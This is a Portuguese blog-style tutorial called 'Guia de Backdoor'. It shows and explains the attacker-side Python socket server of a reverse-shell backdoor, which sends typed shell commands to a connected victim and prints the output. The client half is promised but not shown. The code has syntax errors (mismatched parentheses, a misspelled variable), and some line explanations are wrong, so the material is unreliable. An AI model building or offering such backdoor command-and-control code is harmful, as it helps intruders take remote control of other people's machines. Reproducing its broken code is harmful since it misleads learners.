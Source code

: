 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```

>[!NOTE]
> Explicação mais detalhada do código para qualquer um entender
> um pouco de programação

# como configurar um servidor de socket

```s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)```
* s -> cria um novo objeto de socket
* socket.AF_INET -> especifica que o socket usará o protocolo IPv4
* socket.SOCK_STREAM -> indica que o socket será do tipo TCP

```s.bind(('localhost', 8080))```
* o método bind associa o socket a um endereço IP e uma porta específicos
* Nesse caso, o servidor foi vinculado ao endereço localhost e à porta 8080

```s.listen(1)```
* o método listen coloca o socket em modo de escuta, aguardando conexões de clientes.
* o parâmetro 1 especifica o número máximo de conexões que podem ser enfileiradas. Nesse caso, o servidor aceitará uma conexão à espera de outra.

# como estabelecer conexões de clientes no servidor socket

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```conn, addr = s.accept()```
* o método accept aguarda até que um cliente se conecte ao servidor. quando o cliente se conecta, accept retorna dois valores:
  
<ins>conn</ins>: um objeto de socket que permite a comunicação com o cliente.

<ins>addr</ins>:  uma tupla contendo o endereço Ip e a porta do cliente conectado.
  
```print(f"[+] Conectado a {addr}")```
* imprime uma mensagem no console indicando que a conexão foi estabelecida e mostra o endereço do cliente (addr)

# como estabelecer um looping que permite ao servidor enviar comandos a um cliente conectado e processar as respostas

```while True```
* um looping que permite que o servidor continue aceitando conexões até que seja interrompido.

```command = input("Shell >")```
* solicita ao usuário que insira um comando (input), exibindo o promt "shell >"

```if command == 'exit'```
* veridica se o comando inserido pelo usuário é "exit"

```conn.send(b'exit')```
* se o comando for "exit", o servidor envia uma mensagem ao cliente para indicar que a conexão deve ser encerrada. A mensagem é enviada como bytes.

  ```conn.close```
  * fecha a conexão com o cliente.
 
  ```break```
  * sai(termina) o loop, interrompendo a execução
   
```else```
  * se o comando não for "exit", o servidor executa o bloco de código a seguir.

```conn.send(command.encode())```
* o comando e inserido é enviado ao cliente após ser convertido para bytes com encode().

```output = conn.recv(1024)```
* o servidor aguarda e recebe a resposta do cliente, lendo até 1024 bytes de dados

```print(output.decode())```
* a resposta recebida é convertida de bytes de volta para uma string decode() e é impressa no terminal do servidor.
